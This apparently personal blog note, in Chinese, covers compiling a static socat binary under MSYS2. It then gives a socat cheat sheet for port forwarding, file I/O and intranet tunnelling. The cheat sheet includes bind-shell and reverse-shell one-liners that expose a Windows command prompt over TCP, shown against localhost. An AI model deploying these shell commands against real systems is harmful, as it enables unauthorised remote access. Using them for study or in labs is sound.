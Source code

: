 ```yaml
---
author: XhstormR
categories:
- Notes
date: 2020-01-28T21:49:39+08:00
title: 构建 socat
---
```


<!--more-->

Updated on 2020-01-28

> {{< image "/uploads/doorway.svg" "doorway" "1" "1" >}}
>
> [MSYS2](https://mirrors.tuna.tsinghua.edu.cn/msys2/distrib/msys2-x86_64-latest.tar.xz)
>
> [socat](http://www.dest-unreach.org/socat/download/socat-1.7.3.4.tar.gz)

## Step
```bash
D:\Work\Download\socat>

pacman -Syu
pacman -S --noconfirm --needed gcc make libreadline-devel

./configure CFLAGS='-s -static -Os' && make
```

```bash
单向模式:
-u in -> out
-U out <- in

Bind Shell
----
LHOST:
ncat 127.0.0.1 1234
or
socat tcp-connect:127.0.0.1:1234 readline
RHOST:
socat tcp-listen:1234,fork,reuseaddr exec:"cmd",pty,stderr

Reverse Shell
----
LHOST:
socat tcp-listen:1234,fork,reuseaddr readline
RHOST:
socat tcp-connect:127.0.0.1:1234 exec:"cmd",pty,stderr

单进程应用 -> 多进程服务
----
LHOST:
socat -u tcp-connect:127.0.0.1:1234 -
RHOST:
socat -U tcp-listen:1234,fork,reuseaddr exec:"busybox ps",pty,stderr

监听端口
----
LHOST:
socat tcp-listen:1234,fork,reuseaddr -
RHOST:
ncat 127.0.0.1 1234
or
curl 127.0.0.1:1234

端口转发
----
socat tcp-listen:1234,fork,reuseaddr tcp-connect:192.168.1.19:3389

写入文件
----
echo 123 | socat -u - ./123.txt

读取文件
----
socat -U - ./123.txt

内网穿透（不推荐）
----
公网：
socat tcp-listen:1234,fork,reuseaddr tcp-listen:8080
内网：
socat tcp-connect:47.98.135.65:1234 tcp-connect:192.168.1.19:80
客户端：
curl 47.98.135.65:8080
```

## Reference
* http://www.dest-unreach.org/socat/doc/socat.html
